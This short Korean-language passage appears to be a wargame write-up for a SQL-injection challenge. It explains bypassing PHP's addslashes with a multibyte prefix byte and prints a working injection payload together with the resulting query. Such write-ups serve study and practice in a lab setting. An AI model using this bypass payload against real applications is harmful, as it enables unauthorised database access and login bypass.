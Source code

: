 # Solution..!
- addslashs의 역할.. ' 앞에 / 를 붙이는거임
    - slash 앞에 %a1 ~ %fe 중 하나가 붙으면, slash가 하나의 문자가 되어 버려 우회
- 마지막에 result pw하고 get 하고 같이 같을때만 풀림


> select pw from prob_orc where id = 'admin' and pw = '' union select "pw"
> %a1' or 1=1 union select %22pw%22 #

여기서 테스트 <br/>
https://www.w3schools.com/php/phptryit.asp?filename=tryphp_func_string_addslashes